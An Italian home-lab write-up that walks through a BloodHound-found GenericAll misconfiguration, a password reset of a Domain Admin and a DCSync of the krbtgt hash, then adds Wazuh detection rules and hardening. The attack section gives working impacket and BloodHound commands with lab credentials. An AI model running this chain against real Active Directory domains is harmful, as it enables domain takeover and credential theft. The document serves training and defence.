







# 02 — ACL Abuse, BloodHound e DCSync

MITRE ATT&CK: 
T1069.002, Domain Groups: enumerazione dei gruppi.
T1087.002, Domain Account: enumerazione degli account.
T1098, Account Manipulation.
T1078.002, Domain Accounts: uso di un account di dominio valido.
T1003.006, DCSync.

---

## PROSPETTIVA OFFENSIVA: La catena

Per prima cosa cercando un ingresso noto un permesso eccessivo usando BloodHound, sfrutto questa falla per prendere l'identità di un Domain Admin (tramite un reset password con GenericAll) e con quell'autorità posso controllare il dominio eseguendo un DCSync sul krbtgt.

---

## LA VULNERABILITÀ

Scenario: un utente di supporto (m.rossi) riceve a causa di una delega misconfigurata il controllo (GenericAll) su un account membro di DOMAIN ADMINS (priv.admin).

Creazione del bersaglio privilegiato e assegnazione del permesso (su DC01):

```powershell
$pw = ConvertTo-SecureString "Temp#Start2026!" -AsPlainText -Force
New-ADUser -Name "Priv Admin" -SamAccountName "priv.admin" -UserPrincipalName "priv.admin@lab.local" `
  -Path "OU=LabUsers,DC=lab,DC=local" -AccountPassword $pw -Enabled $true
$da = (Get-ADDomain).DomainSID.Value + "-512"
Add-ADGroupMember -Identity $da -Members priv.admin

#effettiva falla, m.rossi ottiene GenericAll su priv.admin
dsacls "CN=Priv Admin,OU=LabUsers,DC=lab,DC=local" /G "LAB\m.rossi:GA"
```

Verifica che l'ACE sia scritto:

```powershell
dsacls "CN=Priv Admin,OU=LabUsers,DC=lab,DC=local" | findstr /i "m.rossi"
```

---

## ENUMERAZIONE

Da Kali, come utente senza privilegi, raccolgo info sul dominio via LDAP:

```bash
bloodhound-ce-python -u m.rossi -p 'Autunno2026!' -d lab.local -dc dc01.lab.local -ns 192.168.56.10 -c All --zip
```

Carico il file zip in BloodHound (File Ingest e poi Upload), markando "m.rossi" come Owned e lancio il Pathfinding verso "DOMAIN ADMINS" per trovare l'accesso al controllo del dominio sfruttando GenericAll.

Su bloodHound seleziono il path da M.ROSSI a priv.admin e infine a Domain Admins.

PICCOLA NOTA >>> la raccolta di BloodHound genera un grande volume anomalo di query LDAP in pochi secondi, un indicatore di compromissione anomalo sfruttabile da un difensore. 
In un engagement reale si userebbe una raccolta mirata ("-c ACL,ObjectProps") invece di `-c All` per ridurre il rumore.

---

## SFRUTTAMENTO EFFETTIVO

### VERIFICA DEI PERMESSI

Prima di agire, confermo i diritti che ho sul target:

```bash
impacket-dacledit -action read -principal m.rossi -target priv.admin 'lab.local/m.rossi:Autunno2026!' -dc-ip 192.168.56.10
```


### Abuso del GenericAll con reset della password

Il GenericAll consente di resettare la password del target senza conoscerla, dopo il reset, conosco le credenziali di un Domain Admin:

```bash
impacket-changepasswd 'lab.local/priv.admin@192.168.56.10' -reset -altuser 'lab.local/m.rossi' -altpass 'Autunno2026!' -newpass 'LongPassw0rd!2026#Lab'
```


### PROVA DEL CONTROLLO, DCSYNC DEL KRBTGT

Ora quindi utilizzo le credenziali di "priv.admin", membro di Domain Admin, per dimostrare la compromissione.
Tramite il DCSync chiedo al DC di replicarmi gli hash, incluso quello del **krbtgt**.

```bash
impacket-secretsdump 'lab.local/priv.admin:LongPassw0rd!2026#Lab'@192.168.56.10 -just-dc-user krbtgt
```

---

## DETECTION

### PREREQUISITI

Per far si che gli eventi di accesso agli oggetti AD (4662, 5136) vengano generati, ho scoperto NON è sufficiente attivare la sottocategoria di audit, serve anche una SACL sull'oggetto da sorvegliare. Il primo è l'audit generale acceso e il secondo è come fosse l'oggetto spuntato come da auditare.

ALTRA NOTA:>>> il  DCSync accede alla radice del dominio, non all'OU, la SACL applicandola sull'OU "LabUsers" non copriva il DCSync e l'attacco va inosservato, bisognava quindi aggiungere la SACL sui diritti di replica alla radice del dominio:

```powershell
$acl = Get-Acl "AD:\DC=lab,DC=local" -Audit
$everyone = New-Object System.Security.Principal.SecurityIdentifier("S-1-1-0")
$guid = [GUID]"1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" 
$rule = New-Object System.DirectoryServices.ActiveDirectoryAuditRule($everyone,[System.DirectoryServices.ActiveDirectoryRights]::ExtendedRight,[System.Security.AccessControl.AuditFlags]::Success,$guid)
$acl.AddAuditRule($rule)
Set-Acl "AD:\DC=lab,DC=local" -AclObject $acl
```

l'audit "acceso" quindi senza la SACL giusta sull'oggetto dominio fa passare attacchi gravi come il DCSync senza neanche registrarli. 

Idem per il 5136 (modifica DACL), che vuole sottocategoria Directory Service Changes PIù SACL sull'OU e un successivo "gpupdate /force".

Una cosa, gli eventi arrivano al SIEM, ma:
- 4724 (reset) e 5136 (modifica DACL) hanno già un rule level assegnato da Wazuh.
- 4662 (il DCSync) è rumoroso con migliaia al giorno, Wazuh di default non lo allerta.


### REGOLE DI DETECTION CUSTOM

Ho scritto tre regole in "/var/ossec/etc/rules/local_rules.xml" sul server Wazuh, la regola DCSync sfrutta una regex avanzata per intercettare i principali GUID di replica (Get-Changes e Get-Changes-All), evitando falsi negativi:

```xml
<rule id="100100" level="14">
  <if_group>windows</if_group>
  <field name="win.system.eventID">^4662$</field>
  <field name="win.eventdata.properties" type="pcre2">(?i)1131f6ad-9c07-11d1-f79f-00c04fc2dcd2|1131f6aa-9c07-11d1-f79f-00c04fc2dcd2</field>
  <description>DCSync: richiesta di replica delle credenziali di dominio (potenziale dump NTDS/krbtgt)</description>
  <mitre><id>T1003.006</id></mitre>
</rule>

<rule id="100101" level="12">
  <if_group>windows</if_group>
  <field name="win.system.eventID">^4724$</field>
  <description>Reset password di un account: verificare autore e contesto</description>
</rule>

<rule id="100102" level="10">
  <if_group>windows</if_group>
  <field name="win.system.eventID">^5136$</field>
  <description>Modifica di un oggetto Active Directory: verificare attributo e autore</description
</rule>
```

per applicare:
```bash
sudo systemctl restart wazuh-manager
```


Ora filtro la dashboard per gravità ("rule.level:>=10", Last 15 minutes), l'intera catena d'attacco emerge in cima, con nomi leggibili e livelli di priorità.


---

## HARDENING FINALE E RE-TESTING

La contromisura mira alla causa: il permesso eccessivo. Rimuovo le ACE associate a m.rossi dall'oggetto Priv Admin togliendo così la delega eccessiva:

```powershell
dsacls "CN=Priv Admin,OU=LabUsers,DC=lab,DC=local" /R "LAB\m.rossi"
dsacls "CN=Priv Admin,OU=LabUsers,DC=lab,DC=local" | findstr /i "m.rossi"
```

Re-test: lo stesso identico attacco ora fallisce.

```bash
# L'ACE non c'è più
impacket-dacledit -action read -principal m.rossi -target priv.admin 'lab.local/m.rossi:Autunno2026!' -dc-ip 192.168.56.10
QUI NESSUN RISULTATO

# Il reset viene rifiutato
impacket-changepasswd 'lab.local/priv.admin@192.168.56.10' -reset -altuser 'lab.local/m.rossi' -altpass 'Autunno2026!' -newpass 'Test123!'
M.ROSSI NON CONSENTITO
```

### SCREENSHOTS















## CONCLUSIONE

- Principio del Least Privilege : le deleghe vanno fatte con parsimonia e riviste spesso. 
- Audit per la detection: abilitare Directory Service Access/Changes e le SACL sugli oggetti critici (inclusa la radice del dominio per il DCSync).

---
